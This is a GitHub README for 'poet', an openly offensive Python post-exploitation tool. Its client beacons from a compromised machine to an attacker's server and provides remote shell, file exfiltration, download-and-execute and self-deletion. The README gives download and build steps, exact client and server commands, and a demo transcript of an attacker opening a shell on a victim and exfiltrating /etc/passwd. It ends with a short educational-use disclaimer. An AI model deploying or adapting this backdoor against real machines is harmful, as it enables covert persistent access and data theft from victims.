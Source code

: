# poet

A simple POst-Exploitation Tool.

## overview

The client program runs on the target machine and is configured with an IP
address (the server) to connect to and a frequency to connect at. If the server
isn't running when the client tries to connect, the client quietly sleeps and
tries again at the next interval. If the server is running however, the
attacker gets a control shell to control the client and perform various actions
on the target including:

- reconnaissance
- remote shell
- file exfiltration
- download and execute
- self destruct

## getting started

Go to the [releases](http://github.com/mossberg/poet/releases) page and
download the latest `poet-client.zip` and `poet-server.zip` files available.
Then skip to the Usage section below.

Alternatively, you can build Poet yourself (it's pretty easy). Make sure you
have the `python2.7` and `zip` executables available.

```
$ git clone https://github.com/mossberg/poet
$ cd poet
$ make
```

This will create a `build/` directory which contains `poet-client.zip`
and `poet-server.zip`.

Wondering why Poet is distributed as zip file rather than regular python
scripts?  This is because of shared code between the client and server and the
requirement that the client be a single file. Rather than manually keeping
copies of the shared code in sync between files, packaging the main and shared
code into a zip file that can be passed to the Python interpreter was a cleaner
solution.

## usage

Poet is super easy to use, and requires nothing more than the Python (2.7)
standard library. To easily try it out, a typical invocation would look like:

Terminal 1:

```
$ python2.7 poet-client.zip -v 127.0.0.1 1
```

Terminal 2:

```
$ sudo python2.7 poet-server.zip
```

Note:

- You **need** to specifically pass the zip files to the Python interpreter.
  Executing them as if they were a binaries a la `./poet-client.zip` will not
  work.
- By default, the server needs to be run as root (using `sudo`) because the
  default port it binds to is 443. If that makes you uncomfortable, simply omit
  `sudo` and use the `-p <PORT>` flag on both the client and server. Pick a
  nice, high number for your port (> 1024).

Of course, using the `-h` flag gives you the full usage.

```
$ python2.7 poet-client.zip -h
usage: poet-client.zip [-h] [-p PORT] [-v] [-d] IP [INTERVAL]

positional arguments:
  IP                    server
  INTERVAL              (s)

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT
  -v, --verbose
  -d, --delete          delete client upon execution

$ python2.7 poet-server.zip -h
usage: poet-server.zip [-h] [-p PORT]

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT
```

## demo

This is just a small sample of what poet can do.

The scenario is, an attacker has gotten access to the victim's machine and
downloaded and executed the client (in verbose mode ;).  He/she does not have
the server running at this point, but it's ok, the client waits patiently.
Eventually the attacker is ready and starts the server, first starting a shell
and executing `uname -a`, then exfiltrating `/etc/passwd`. Then he/she exits
and detaches from the client, which continues running on the target waiting for
the next opportunity to connect to the server.

Victim's Machine (5.4.3.2):

```
$ python2.7 poet-client.zip -v 1.2.3.4 10
[+] Poet started with interval of 10 seconds to port 443. Ctrl-c to exit.
[!] (2015-03-27 03:40:12.259676) Server is inactive
[!] (2015-03-27 03:40:22.263161) Server is inactive
[!] (2015-03-27 03:40:32.267308) Server is inactive
[+] (2015-03-27 03:40:42.273376) Server is active
[!] (2015-03-27 03:41:07.145979) Server is inactive
[!] (2015-03-27 03:41:17.150634) Server is inactive
[!] (2015-03-27 03:41:27.155614) Server is inactive
[!] (2015-03-27 03:41:37.160440) Server is inactive
```

Attacker's Machine (1.2.3.4):

```
# python2.7 poet-server.zip
                          _
        ____  ____  ___  / /_
       / __ \/ __ \/ _ \/ __/
      / /_/ / /_/ /  __/ /
     / .___/\____/\___/\__/     v0.4
    /_/

[+] Poet server started on 443.
[+] (2015-03-27 03:40:42.272601) Connected By: ('5.4.3.2', 59309) -> VALID
[+] (2015-03-27 03:40:42.273087) Entering control shell
Welcome to psh, the Poet shell!
Running `help' will give you a list of supported commands.
psh > shell
psh > user@server $ uname -a
Linux lolServer 3.8.0-29-generic #42~precise1-Ubuntu SMP Wed May 07 16:19:23 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
psh > user@server $ ^D
psh > exfil /etc/passwd
psh : exfil written to archive/20150327/exfil/passwd-201503274054.txt
psh > help
Commands:
  chint
  dlexec
  exec
  exfil
  exit
  help
  recon
  selfdestruct
  shell
psh > exit
[+] (2015-03-27 03:40:57.144083) Exiting control shell.
[-] (2015-03-27 03:40:57.144149) Poet server terminated.
```

## disclaimer

I am building Poet purely for my own education and learning experience.
The code is freely available because I think it might be useful to others
interested in learning about this sort of thing. Use it responsibly.
